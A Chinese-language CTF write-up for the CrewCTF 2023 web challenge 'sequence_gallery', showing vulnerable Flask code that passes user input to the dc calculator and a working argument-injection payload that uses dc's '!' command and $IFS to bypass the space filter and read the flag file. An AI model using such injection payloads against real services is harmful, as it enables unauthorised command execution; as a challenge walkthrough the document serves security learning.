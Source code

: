 ```yaml
---
title: CrewCTF 2023 Web Writeup
date: 2023-07-14 19:20:00
updated: 2023-07-14 20:45:00
tags: [ctf, security]
category: CTF
---
```


> 环境还在，赛后看看题，一共四道Web，都挺有意思的。

## sequence_gallery
> Do you like sequences?
> [http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/) 

```python
sequence = request.args.get('sequence', None)
if sequence is None:
    return render_template('index.html')

script_file = os.path.basename(sequence + '.dc')
if ' ' in script_file or 'flag' in script_file:
    return ':('

proc = subprocess.run(
    ['dc', script_file], 
    capture_output=True,
    text=True,
    timeout=1,
)
output = proc.stdout
```
命令注入的一个trick，查手册可知通过`-e !`，后面的内容会当作命令执行。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230714161431.png)

```bash
dc -e \!id
```
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230714162026.png)
那么在题目中也一样。
```
http://sequence-gallery.chal.crewc.tf:8080/?sequence=--expression=!cat$IFS*.txt;
```
`crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`

这里踩到了一个坑，`dc`是一个比较老的命令，在服务器上通常是老的版本，有这个用`!`命令执行的trick，而我的macos默认的dc命令来自`https://git.gavinhoward.com/gavin/bc`。
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230714162224.png)
这是一个叫做`bc`的仓库，大概是后人维护的工具，涵盖`dc`这个命令的正常使用。
仓库作者指出由于安全问题，忽略了`!`。
```
This bc also includes an implementation of dc in the same binary, accessible via a symbolic link, which implements all FreeBSD and GNU extensions. (If a standalone dc binary is desired, bc can be copied and renamed to dc.) The ! command is omitted; I believe this poses security concerns and that such functionality is unnecessary.
```
对比服务器的dc版本
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230714162256.png)
